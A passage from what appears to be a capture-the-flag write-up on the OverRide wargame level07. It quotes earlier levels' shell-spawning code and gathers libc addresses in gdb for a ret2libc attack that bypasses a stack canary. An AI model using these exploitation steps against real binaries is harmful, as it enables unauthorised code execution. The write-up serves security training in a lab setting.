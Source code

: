 ```sh
Input command: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCC
 Failed to do AAAAAAAAAAAAAAAAAA command
Input command:  Failed to do AAAAAAAAAAAAAAAABB command
Input command:  Failed to do BBBBBBBBBBBBBBBBBB command
Input command:  Failed to do BBBBBCCCCCCCCCCCCC command
Input command:  Failed to do CCCCC command
```

So now why the security measures are interesting ? Well we have a stack canary, which we are gonna discuss a little more after, that is supposed to detect buffer overflow and close the program before anything is executed. However every time we had a stack canary on past levels, there were all levels containing the solutions (containing a system("/bin/sh") that will be executed through certains conditions for instance). The level06 was like that, a stack canary but had:

```c
if (!auth(buffer, password)) {  
    puts("Authenticated!");
    system("/bin/sh");
}
```

Or level03 that also had a canary found but contained this:

```c
if (!strcmp(str, "Congratulations!"))
    return system("/bin/sh");
```

So here we have a stack canary but we actually need to interact with the stack which can lead to some new issues we haven't faced before (finally). So before considering that let's try with our two favorites methods, the shell env variable and the ret2libc.

### Ret2LibC

We are now comfortable with this methods, thankfully since we already did this method on this machine and that PIE is still not activated on this binary, it means that the addresses of exit, system, and "/bin/sh" are the same as before. We can still verify to make sure of it and we manage to get:

```sh
(gdb) info function system
[...]
0xf7e6aed0  system

(gdb) info function exit
[...]
0xf7e5eb70  exit

(gdb) info proc map
[...]
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so

level07@OverRide:~$ strings -t x /lib32/libc-2.15.so | grep "/bin/sh"
 15d7ec /bin/sh
```
